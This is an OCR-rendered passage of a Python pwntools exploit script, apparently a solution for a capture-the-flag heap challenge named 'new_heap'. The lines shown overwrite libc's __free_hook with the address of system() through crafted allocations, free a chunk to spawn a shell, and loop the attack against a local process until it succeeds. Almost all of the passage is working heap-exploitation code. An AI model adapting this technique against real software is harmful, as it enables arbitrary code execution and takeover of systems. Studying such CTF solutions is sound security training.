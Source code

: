 87.  create(sh,0x30,payload) #15  
88.  create(sh,0x50,'e'*0x50) #16  
89.  #将free_hook指向system  
90.  create(sh,0x50,p64(system_addr)) #17  
91.  #getshell  
92.  delete(sh,11)  
93.  sh.interactive()  

96.  **while** True:  
97.  **try**:  
98.  sh = process('./new_heap',env={"LD_PRELOAD":"./libc.so.6"})  
99.  crack(sh)  
100.  **except**:  
101.  sh.close()  
102.  **print** 'retrying...'